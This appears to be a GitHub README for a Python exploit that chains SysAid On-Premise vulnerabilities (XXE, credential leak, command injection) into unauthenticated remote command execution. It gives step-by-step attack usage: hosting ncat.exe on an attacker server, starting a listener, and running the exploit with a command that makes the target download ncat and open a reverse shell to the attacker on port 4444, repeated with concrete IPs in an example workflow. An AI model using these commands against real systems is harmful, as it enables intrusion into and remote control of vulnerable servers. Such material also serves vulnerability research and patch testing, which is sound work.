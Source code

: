 <p align="center">
  <img src="https://www.sysaid.com/wp-content/uploads/2020/03/SysAid-Logo-PNG.png" width="300px" alt="SysAid Logo">
</p>

<h1 align="center">SysAid Pre-Auth RCE Chain Exploit</h1>

<p align="center">
  <strong>🔥 CVE-2025-2775 → CVE-2025-2778 RCE Chain</strong><br>
  🧑‍💻 Author: <strong>0xgh057r3c0n</strong> | 🔬 Research: <strong>@SinSinology</strong> & <strong>@watchTowrcyber</strong><br>
  <a href="https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE">
    <img src="https://img.shields.io/github/license/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain?style=flat-square" alt="MIT License">
  </a>
</p>

---

## 🚨 Associated CVEs

| CVE ID         | Description                                                       |
|----------------|-------------------------------------------------------------------|
| **CVE-2025-2775** | XXE vulnerability in `/mdm/serverurl` endpoint                  |
| **CVE-2025-2776** | Arbitrary file read via malicious external DTD (XXE technique)  |
| **CVE-2025-2777** | Credentials stored in plaintext in `InitAccount.cmd`            |
| **CVE-2025-2778** | Authenticated command injection via `javaLocation` parameter    |

These are chained together to achieve **unauthenticated remote command execution**.

---

## 🧩 About

This is a Python-based exploit that targets **SysAid On-Premise** running on **Windows**. It chains multiple vulnerabilities to achieve **pre-authenticated blind RCE**.

---

## 🧰 Requirements

- Python 3.6+
- `requests` module
- Attacker host with HTTP server and Netcat (`ncat`)
- SysAid target running on Windows

Install dependencies:

```bash
pip install requests
````

---

## 🔗 Exploit Chain Overview

1. XXE payload via `/mdm/serverurl` → triggers DTD-based file read
2. Leak `InitAccount.cmd` → extract hardcoded credentials
3. Log in with leaked creds
4. Inject command via `javaLocation` param (blind RCE)

---

## 🖥️ Step-by-Step Usage

### 1️⃣ Download and Host `ncat.exe` (Windows Netcat)

* 📥 Download from official source:
  [https://nmap.org/dist/ncat-portable-5.59BETA1.zip](https://nmap.org/dist/ncat-portable-5.59BETA1.zip)

* Extract `ncat.exe`

* Host it using Python HTTP server:

```bash
cd /path/to/ncat/
python3 -m http.server 80
```

Accessible at:

```
http://<ATTACKER_IP>/ncat.exe
```

---

### 2️⃣ Start a Reverse Shell Listener

On your attacker machine:

```bash
ncat -lvnp 4444
```

---

### 3️⃣ Run the Exploit

#### 🔸 Basic RCE (blind)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c whoami
```

> You won’t get output, but command runs silently.

---

#### 🔹 Reverse Shell (Windows)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c "cmd.exe /c curl http://<ATTACKER_IP>/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe <ATTACKER_IP> 4444 -e cmd.exe"
```

**Decoded:**

```cmd
cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe
C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe
```

---

## 📦 Example Workflow

```bash
# Host Netcat binary
python3 -m http.server 80

# Start listener
ncat -lvnp 4444

# Launch exploit
python3 exploit.py -t http://192.168.1.100:8080 -l 192.168.1.20 -c "cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe"
```

---

## 🧪 Tested On

* ✅ SysAid On-Prem (Windows Server)
* ✅ Python 3.8+
* ✅ ncat.exe from Nmap

---

## 👨‍🔬 Credits

* 🔬 Research: [@SinSinology](https://twitter.com/SinSinology) & [@watchTowrcyber](https://twitter.com/watchTowrcyber)
* 💻 Exploit: **0xgh057r3c0n**

---

## 📜 License

This project is licensed under the MIT License. See the full license here:
🔗 [MIT License on GitHub](https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE)

